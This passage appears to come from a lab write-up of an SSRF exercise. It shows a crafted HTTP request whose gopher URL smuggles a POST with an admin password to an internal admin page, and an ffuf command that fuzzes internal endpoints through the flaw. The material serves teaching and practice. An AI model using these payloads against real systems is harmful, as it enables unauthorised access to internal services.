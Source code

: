 ```http
POST /index.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01
```

<figure><img src="../../../.gitbook/assets/image (1335).png" alt=""><figcaption></figcaption></figure>

And just like that we have access to the admin dashboard.

But to bypass the time consuming task of crafting the url alone we can utilize the tool [Gopherus](https://github.com/tarunkant/Gopherus) to generate gopher URLs for us

_**Exploit the SSRF vulnerability to identify an additional endpoint. Access that endpoint to obtain the flag.**_

<figure><img src="../../../.gitbook/assets/image (1336).png" alt=""><figcaption></figcaption></figure>

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -u http://10.129.103.145/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80" -v
```
